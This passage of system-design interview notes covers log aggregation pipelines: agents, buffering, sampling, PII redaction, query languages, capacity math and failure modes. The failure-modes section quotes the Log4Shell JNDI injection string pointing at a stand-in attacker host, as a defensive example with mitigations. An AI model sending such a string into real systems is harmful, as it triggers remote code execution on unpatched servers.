

| Pillar | Data shape | Cardinality | Storage cost | Example tool |
|---|---|---|---|---|
| Logging | Unstructured/structured text events | High (arbitrary fields) | High | ELK/EFK, Splunk, Loki |
| Metrics | Numeric time series (counters/gauges/histograms) | Low/bounded | Low | Prometheus, Datadog, M3 |
| Tracing | Causally-linked spans across services | Medium | Medium | Jaeger, Zipkin, Google Dapper |

Mnemonic: **"Logs tell you WHAT, Metrics tell you HOW MUCH, Traces tell you WHERE (in the call graph)."**

### 6.5 Structured logging & log levels

Unstructured logs are strings for humans; **structured logs are key-value/JSON for machines**. Structure is the prerequisite for everything downstream — search, alerting, and sampling all operate on fields, not free text.

```json
{"timestamp":"2026-07-17T10:22:31.482Z","level":"ERROR","service":"checkout-service","host":"ip-10-0-4-12","trace_id":"7f3c2a91","span_id":"s3","user_id_hash":"9f86d0...","message":"payment gateway timeout","latency_ms":5023,"http_status":504}
```

| Level | Meaning | Typical share of volume | Interview rule of thumb |
|---|---|---|---|
| DEBUG | Verbose, dev-only detail | ~70% | Sample hard or disable in prod |
| INFO | Normal operational events | ~20% | Sample moderately |
| WARNING | Recoverable anomaly | ~7% | Keep, low volume |
| ERROR | Request/operation failed | ~2% | Never sample away |
| FATAL/CRITICAL | Process can't continue | ~1% | Never sample away; always alert |

Mnemonic: *"Debug whispers, Info narrates, Warning nags, Error shouts, Fatal buries."* **Rule: "If it's not structured, it's not queryable."**

### 6.6 Log collection agents (Fluentd / Filebeat / Logstash / Fluent Bit)



| Agent | Footprint | Parsing power | Role |
|---|---|---|---|
| Filebeat | Very light (Go binary) | None — ships raw lines | Edge tailer, pairs with Logstash |
| Fluent Bit | Lightest (C, embeddable) | Minimal | Edge tailer, pairs with Fluentd/OTel |
| Logstash | Heavy (JVM) | Rich (grok, mutate, geoip) | Central parse/enrich before ES |
| Fluentd | Medium | Moderate (plugin-based) | Central buffering + routing to many sinks |
| OpenTelemetry Collector | Medium | Moderate, vendor-neutral | Modern unified agent for logs+metrics+traces |

**Fluentd buffering config, the part interviewers probe:**
```
<buffer>
  @type file
  chunk_limit_size 8MB
  queue_limit_length 256      # 256 x 8MB = 2GB max buffered before overflow
  overflow_action drop_oldest_chunk
  retry_max_times 5
</buffer>
```
Interview line: "Edge agents (Filebeat/Fluent Bit) stay dumb and cheap; parsing/enrichment happens in a smaller number of aggregator nodes (Logstash/Fluentd) — this is the same edge/aggregator split as the accumulator vs. filterer in our own architecture."

### 6.7 Buffering & backpressure



Worked example: an accumulator's in-memory ring buffer holds 2 GB (256 chunks × 8 MB). At 500 MB/s sustained ingestion with Kafka temporarily unreachable, that buffer fills in **~4 seconds**. The policy chosen for that moment *is* the design decision — this chapter's default is **shed by priority** (drop DEBUG/INFO, keep WARN+), because losing verbose logs during an incident is fine, losing the ERROR that explains the incident is not.

### 6.8 Sampling & cost control at scale



| Strategy | How it works | Use when |
|---|---|---|
| Uniform random | Keep X% of all events | Simple baseline, low signal loss tolerance unknown |
| Priority/level-based | 100% of ERROR/FATAL, 1–10% of DEBUG/INFO | Default choice — never sample away the signal you'll need in an incident |
| Tail-based | Buffer a whole trace; keep it only if any span errored | Distributed tracing — needs the *whole* request, not a random slice |
| Reservoir | Fixed-size random sample maintained over a stream | Bounded memory, unknown total volume |

**Worked example:** at 1M logs/sec (70% DEBUG, 20% INFO, 7% WARN, 2% ERROR, 1% FATAL), sampling DEBUG at 1% and INFO at 10% while keeping WARN/ERROR/FATAL at 100%:
`(700K × 0.01) + (200K × 0.10) + 70K + 20K + 10K = 7K + 20K + 70K + 20K + 10K ≈ 127K logs/sec` — a **~7.9x reduction** in ingestion (and downstream ES storage/cost) with zero loss of anything actionable. This is the number to say out loud when asked "how do you control cost at Facebook-scale (billions/sec)?"

### 6.9 PII, security, redaction & GDPR compliance

```json
// Before (never persist this)
{"level":"INFO","message":"user jane.doe@example.com (SSN 123-45-6789) checked out with card 4111111111111111"}
// After (redact/hash/tokenize at the accumulator, before it ever leaves the host)
{"level":"INFO","message":"user checked out","user_id_hash":"9f86d081...","card_last4":"1111"}
```

| PII type | Handling | Why |
|---|---|---|
| Email, name, address | Mask or drop from message text | Not needed for debugging, high exposure |
| User ID / account ID | Hash (one-way) | Still lets you correlate/join across logs without exposing identity |
| Card numbers, secrets, tokens | Drop entirely, never log | "Radioactive" — no legitimate debugging need justifies the risk |



Mnemonic: *"Mask what identifies, hash what correlates, drop what's radioactive."*

### 6.10 Multi-tenancy



| Isolation model | How | Trade-off |
|---|---|---|
| Index-per-tenant (shared ES cluster) | Filterer routes each tenant to its own index/alias | Cheaper; one noisy tenant can still saturate shared cluster CPU/IO |
| Cluster-per-tenant | Separate ES/Kafka clusters per big tenant | Full isolation; highest cost, most ops overhead |
| Label/namespace-based (Loki-style) | Tenant ID header on every write/query | Cheap, but weaker hard isolation than separate clusters |

Interview line: "Multi-tenancy is a spectrum from 'shared everything + quotas' to 'dedicated everything' — pick based on blast-radius tolerance, and always rate-limit at the accumulator/filterer so one noisy tenant can't starve another (the same noisy-neighbor problem as any shared datastore)."

### 6.11 Correlation IDs & distributed tracing integration



The `trace_id`/`span_id` fields from the JSON log example in 6.5 are exactly what makes this join possible — logging and tracing share the same correlation keys, which is why OpenTelemetry ships one SDK for both.

### 6.12 Schema evolution

Log schemas change constantly (new field added, old one deprecated) while old and new producers/consumers run simultaneously during rollout.

| Change | Compatible? | Rule |
|---|---|---|
| Add an optional field | Safe | Consumers must ignore unknown fields (forward-compatible parsing) |
| Remove a field | Breaking | Deprecate first (stop writing, keep parsing) before deleting |
| Rename a field | Breaking | Treat as remove + add; dual-write both names during migration |
| Change a field's type | Breaking | Version the schema; never silently change type in place |

Interview line: "Log schemas evolve like any wire format — same rule as Kafka/Avro schema registries: **additive-only, consumers tolerate unknown fields, never rename/retype in place.** If the pipeline enforces a schema registry, reject producer writes that violate compatibility rather than let a bad schema silently break every downstream parser."

### 6.13 Query & analysis languages

| Tool | Query language | Example |
|---|---|---|
| Splunk | SPL | `index=prod service=checkout-service level=ERROR earliest=-15m \| stats count by http_status` |
| Elasticsearch/Kibana | KQL / Lucene / DSL | `service: "checkout-service" and level: "ERROR" and @timestamp >= now-15m` |
| Grafana Loki | LogQL | `sum(rate({service="checkout-service"} \|= "ERROR" [5m])) > 50` |

Cost/power trade-off: **Splunk SPL** is the most powerful (full analytics language) and the most expensive per GB; **Kibana KQL** sits in the middle (full-text index, open-source); **LogQL** is cheapest because Loki only indexes *labels* (service, host, level) — you must narrow by label first, then grep inside the matched stream. Same trade-off as 6.4's Loki-vs-ES row, now with the actual query syntax attached.

### 6.14 Alerting on log patterns



Concrete rule (Loki-ruler style):
```yaml
- alert: CheckoutErrorSpike
  expr: sum(rate({service="checkout-service"} |= "ERROR" [5m])) > 50
  for: 2m
  labels: {severity: page}
  annotations: {summary: "Checkout error rate > 50/min for 2m"}
```
Golden rule: **alert on rates over a window, never on a single event** — one ERROR is noise, a sustained rate is a page. The `for: 2m` clause is what prevents alert flapping on a one-off blip.

### Cheat-sheet
- Push wins for logs, pull wins for metrics — know why (unbounded stream vs periodic snapshot).
- This chapter's source explicitly recommends async flush over sync — quote that trade-off directly (latency vs durability).
- Aggregation ≠ analysis: one collects, the other makes sense of it — don't conflate the two in your architecture diagram.
- Logging/Metrics/Tracing are complementary, not competing — a mature interview answer references OpenTelemetry as the modern effort to unify all three under one SDK/agent.
- If the interviewer says "design a monitoring system" vs "design a logging system," clarify which pillar(s) they mean before diving in.
- Structured (JSON) logs are the prerequisite for search, alerting, and sampling — "if it's not structured, it's not queryable."
- Edge agents (Filebeat/Fluent Bit) stay dumb and cheap; aggregators (Logstash/Fluentd) do the heavy parsing — same edge/aggregator split as accumulator vs. filterer.
- Priority sampling (100% ERROR/FATAL, sample DEBUG/INFO hard) is how Facebook-scale pipelines cut ingestion 5-10x with zero loss of signal.
- PII: mask what identifies, hash what correlates, drop what's radioactive — say this verbatim if asked about GDPR/compliance.
- Schema changes are additive-only; consumers must tolerate unknown fields — never rename/retype a field in place.
- Know one real query per tool: Splunk SPL, Kibana KQL, Loki LogQL — cost/power ranks in that order, high to low.
- Alert on rates over a window (`rate(...) > N for 2m`), never on a single log line — avoids flapping.

---

## 7. When to Use Which

| Scenario | Recommended approach | Why |
|---|---|---|
| Small startup, <100 hosts | Managed: CloudWatch Logs / GCP Cloud Logging / Datadog | Ops overhead of self-hosting ELK not worth it yet |
| Mid-size, need full-text search + dashboards | Self-hosted or managed ELK/EFK stack | Mature, rich query language, wide adoor tooling |
| Very high volume (millions of events/sec), cost-sensitive | Kafka-backed pipeline + tiered storage (hot ES / cold S3), Grafana Loki (index metadata only, not full text) | ES indexes everything = expensive at petabyte scale; Loki trades full-text search for label-based indexing → 10x cheaper storage |
| Regulated industry (finance, health) | Sync/WAL-durable audit logging + encryption at rest + WORM cold storage | Compliance requires zero loss + tamper-evidence, worth the latency cost |
| Need cross-service causal debugging (microservices) | Add distributed tracing (Jaeger/Zipkin/Dapper-style) alongside logging | Logs alone can't reconstruct call-graph timing without span IDs |
| Massive fleet, custom needs (Facebook/Google scale) | Build in-house (Facebook Scuba/Logdevice, Google Dapper, custom Kafka-like pipelines) | Off-the-shelf tools don't scale/cost-optimize at that volume |
| Enterprise search & correlation across security data | Splunk | Best-in-class SPL query language, security/SIEM use cases, but $$$expensive per GB ingested |

### Cheat-sheet
- Volume and budget decide the tool, not preference — say this explicitly.
- Loki vs Elasticsearch is the single highest-signal trade-off to mention: **index everything (ES, expensive, powerful) vs index only labels (Loki, cheap, less flexible search).**
- Compliance changes your sync/async default — call this out as an explicit exception to "always go async."
- If asked to "design Splunk" or "design Datadog," this chapter's content is your backbone — just add multi-tenancy and billing-by-ingested-GB as extra requirements.

---

## 8. Capacity Estimation (Worked Example)

### 8.1 Formula chain

```text
1. Ingestion rate
   logs/sec (cluster-wide) × avg log size (bytes) = raw ingestion bytes/sec

2. Compression
   raw ingestion bytes/sec ÷ compression ratio = compressed bytes/sec

3. Storage per tier
   compressed bytes/sec × retention_seconds(tier) = raw storage needed (tier, single copy)

4. Actual disk footprint
   raw storage needed × replication_factor × index_overhead = actual disk to provision

5. Node/shard count
   actual disk footprint ÷ usable_disk_per_node = node count
   actual disk footprint ÷ target_shard_size    = shard count

6. Pub-sub sizing
   partitions = ceil(ingestion bytes/sec ÷ per_partition_throughput) × headroom_factor
   brokers    = ceil((ingestion bytes/sec × replication_factor) ÷ per_broker_disk_write_throughput)

7. Network bandwidth
   total bandwidth ≈ ingestion_bw
                    + ingestion_bw × (replication_factor − 1)      [broker-to-broker replication]
                    + ingestion_bw × num_downstream_consumers       [filterer, indexer, archiver, etc. each read the full stream]
```

### 8.2 Worked numeric example

**Inputs (state these assumptions out loud — that's half the score):**
- 5,000 hosts × 20 services/host, average **200 logs/sec per host** → 1,000,000 logs/sec cluster-wide (round to **1M logs/sec**)
- Average structured (JSON) log line = **500 bytes**
- Compression ratio (gzip on text logs) = **5:1**
- Hot (searchable, Elasticsearch) retention = **14 days**
- Cold (archive, S3/Glacier) total retention = **365 days**
- Elasticsearch replication factor = **2** (1 primary + 1 replica), index overhead ≈ **1.3×** (inverted index + metadata)
- Kafka replication factor = **3**
- Target ES shard size = **30 GB**
- Per-Kafka-partition sustained write throughput ≈ **10 MB/s**
- Per-broker sustained disk write throughput ≈ **150 MB/s** (SSD, sequential-ish)
- 4 downstream consumers reading the full Kafka stream: filterer, error aggregator, alert aggregator, archiver

**Step-by-step math:**

```text
Step 1 — Raw ingestion
  1,000,000 logs/sec × 500 B = 500,000,000 B/s = 500 MB/s ≈ 4 Gbps

Step 2 — Compressed
  500 MB/s ÷ 5 = 100 MB/s compressed

Step 3 — Hot storage (14 days)
  100 MB/s × 86,400 s/day × 14 days ≈ 121 TB (compressed, single copy)

Step 4 — Actual ES disk footprint
  121 TB × 2 (replication) × 1.3 (index overhead) ≈ 315 TB

Step 5 — ES node & shard count
  Shards:  315 TB ÷ 30 GB/shard  ≈ 10,500 shards
  Nodes (assume 4 TB usable SSD/node): 315 TB ÷ 4 TB ≈ 79 data nodes
  → round to ~80–90 ES data nodes for headroom

Step 6 — Cold storage (365 days total, compressed, S3 — no extra replication, S3 handles durability)
  100 MB/s × 86,400 × 365 ≈ 3.15 PB in S3/Glacier (cheap, ~$0.004–0.023/GB/month tiered)

Step 7 — Kafka partitions
  500 MB/s raw ÷ 10 MB/s per partition ≈ 50 partitions minimum
  × 2 headroom ≈ 100 partitions provisioned

Step 8 — Kafka brokers
  (500 MB/s × replication factor 3) ÷ 150 MB/s per broker ≈ 10 brokers minimum
  round up for fault tolerance / other topics on cluster → 12–15 brokers

Step 9 — Network bandwidth
  Ingest:            500 MB/s  (~4 Gbps)
  Broker replication: 500 MB/s × 2 extra copies = 1,000 MB/s (~8 Gbps)
  4 consumers reading full stream: 500 MB/s × 4 = 2,000 MB/s (~16 Gbps)
  Total cluster network ≈ 3,500 MB/s ≈ 28 Gbps
  → provision 25/40 Gbps NICs across brokers with headroom, or shard consumers to avoid re-reading raw stream 4x
```

**Punchline to say in an interview:** "Ingestion looks cheap (500 MB/s, ~4 Gbps) but replication + fan-out consumers multiply that to ~7x on the network, and the searchable (hot) tier is 2.5x more expensive in disk than raw compressed size once you add replication and index overhead. That's why teams push most retention to cold/blob storage and keep the searchable hot window as short as SLAs allow."

### 8.3 Retention timeline across tiers (visual)

Putting explicit day-ranges on hot/warm/cold makes the tiering decision concrete instead of a vague "some go hot, some go cold":

```mermaid
gantt
    title Log retention timeline (days since a log line was created)
    dateFormat YYYY-MM-DD
    axisFormat Day %j
    section Hot (ES hot nodes, SSD, full-text)
    Hot tier — most expensive/GB   :done, h1, 2026-01-01, 14d
    section Warm (ES warm nodes / S3 Standard-IA)
    Warm tier — compressed, slower search :active, w1, after h1, 76d
    section Cold (Glacier / Deep Archive)
    Cold tier — restore-only, cheapest/GB :c1, after w1, 275d
    section Deleted
    Hard delete / retention expiry :crit, milestone, del, after c1, 0d
```

Reading it: day 0–14 lives on hot ES nodes (fast, expensive); day 14–90 moves to warm (still searchable, cheaper, slower); day 90–365 moves to cold/Glacier (not searchable, restore-on-demand, cheapest); after day 365 it's hard-deleted unless a compliance/legal hold extends it.

### Cheat-sheet
- Always state your assumptions (hosts, logs/sec/host, avg size) before computing — interviewers grade the method, not the final number.
- Memorize the 7-step formula chain shape: ingest → compress → store-per-tier → replicate/index-overhead → node/shard count → pub-sub sizing → network.
- The "multiplier trap": replication + consumer fan-out can make network traffic 5–7x the raw ingestion rate — always call this out.
- Hot storage is always more expensive per byte than cold — this is *why* tiering (hot/warm/cold) exists; tie the estimation back to the design decision.

---

## 9. Design Decisions & Trade-offs

| Decision | Option A | Option B | Trade-off |
|---|---|---|---|
| Flush timing | Sync flush | **Async flush (default)** | Durability vs latency — this chapter picks latency |
| Log everything vs sample | Log 100% | Sample (esp. at Facebook-scale, billions of events/sec) | Completeness vs cost/throughput |
| Storage engine for hot logs | Full-text index everything (Elasticsearch) | Label/metadata-only index (Loki) | Query power vs storage cost |
| Buffering location | In-memory only | Disk-backed WAL | Speed vs durability on crash |
| Number of accumulators per node | Single accumulator | Redundant accumulators | Simplicity vs availability/loss window |
| Multi-tenancy | Shared blob storage across apps | Per-application buckets (filterer routes) | Isolation/security vs operational simplicity — source picks isolation |
| Retention | Keep forever | Tiered hot→warm→cold→delete | Cost vs "just in case" completeness |
| Delivery guarantee to pub-sub | At-most-once (fire-and-forget) | At-least-once (retry+ack) | Loss risk vs duplicate risk (need idempotent consumers) |
| PII handling | Log raw fields | Scrub/encrypt/hash PII before persisting | Debuggability vs compliance risk |
| Cross-DC pub-sub | Single global cluster | Per-datacenter pub-sub clusters | Simplicity vs blast-radius/latency (source recommends per-DC) |

### Cheat-sheet
- Every "yes" has a named cost — practice saying the cost half of each row, not just the benefit.
- Async flush + at-least-once + idempotent consumers is the textbook "good default" combo — lead with it.
- Per-datacenter pub-sub clusters avoid cross-region latency and contain blast radius — mention this as a scaling answer when asked "what if we go multi-region?"
- PII scrubbing is a trade-off, not a free win — over-scrubbing hurts debuggability; under-scrubbing risks compliance fines (GDPR, CCPA).

---

## 10. Common Failure Modes

```mermaid
flowchart TD
    F1[Accumulator crashes before flush] --> R1[Buffered logs lost — mitigate with WAL + redundant accumulators + short flush interval]
    F2[Pub-sub backpressure / broker saturation] --> R2[Producers block or drop — mitigate with partitioning, headroom, load shedding by log level]
    F3[Thundering herd on Error Aggregator] --> R3["Cascading failure produces error storm →<br/>aggregator itself falls over — mitigate with rate limiting/dedup"]
    F4[Cardinality explosion in structured fields] --> R4["Indexing cost/latency blows up (e.g. logging raw user IDs as index keys) —<br/>mitigate by limiting indexed field cardinality"]
    F5[Clock skew across nodes] --> R5["Causality/ordering breaks in reconstructed flow —<br/>mitigate with NTP, vector clocks / trace IDs instead of wall-clock ordering"]
    F6[PII / secrets leak into logs] --> R6["Compliance breach / security incident —<br/>mitigate with scrubbing, encrypted-at-rest, restricted access"]
    F7["Vulnerable logging library (e.g. Log4Shell)"] --> R7["RCE via crafted log input —<br/>mitigate with patched libs, disabling JNDI lookups, WAF rules"]
    F8[Expiration checker bug deletes too early/late] --> R8["Compliance violation or storage cost blowup —<br/>mitigate with dry-run + audit before deletion"]
```

**Log4Shell (CVE-2021-44228)** deserves its own callout: a hidden RCE in Log4j (present since 2013, disclosed 2021, CVSS 10/10) triggered by a single crafted log line (`${jndi:ldap://attacker/a}`), because Log4j evaluated lookups embedded in log *messages*. Lesson for interviews: **the logging pipeline itself is an attack surface** — treat log content as untrusted input, never `eval`/interpolate it, and keep logging libraries patched like any other dependency.

### Cheat-sheet
- Name at least 3 failure modes unprompted: accumulator crash/data loss, backpressure/cascading failure, and a security angle (PII or Log4Shell).
- Clock skew is the failure mode people forget — logging across nodes needs either NTP-disciplined clocks or logical/causal ordering (trace IDs), not raw wall-clock timestamps, to reconstruct correct event order.
- Cardinality explosion is the modern-day equivalent of "too many logs" — mention it when discussing structured logging.
- Bring up Log4Shell as your security failure-mode example — it's the most FAANG-recognizable real incident in this space.

---

## 11. Real-World Examples

| Company/Project | What they built | Notable detail |
|---|---|---|
| **LinkedIn** | Kafka | Originally built at LinkedIn specifically to handle activity-stream + **log aggregation** at scale; open-sourced 2011; now the default pub-sub backbone for logging pipelines industry-wide |
| **Elastic (ELK/EFK stack)** | Elasticsearch + Logstash/Fluentd + Kibana | The default "build it yourself" open-source logging stack; ES indexes full text, expensive at petabyte scale |
| **Grafana Labs** | Loki | "Prometheus, but for logs" — indexes only labels/metadata, stores compressed chunks in object storage → far cheaper than ES at the cost of full-text search power |
| **Splunk** | Splunk Enterprise / SPL | Enterprise-grade log analysis, dominant in SIEM/security use cases; priced per GB ingested, notoriously expensive at scale |
| **Netflix** | Mantis + Keystone pipeline | Real-time event/log pipeline built on Kafka-like stream processing for operational insight and stream-based alerting |
| **Uber** | uReplicator (Kafka MirroredStream), M3 | Cross-datacenter Kafka replication for reliable log/metric shipping between regions |
| **Google** | Dapper (tracing paper, 2010) | Not logging per se, but the paper that defined how to stitch causally-linked spans across services — the conceptual ancestor of Jaeger/Zipkin/OpenTelemetry tracing |
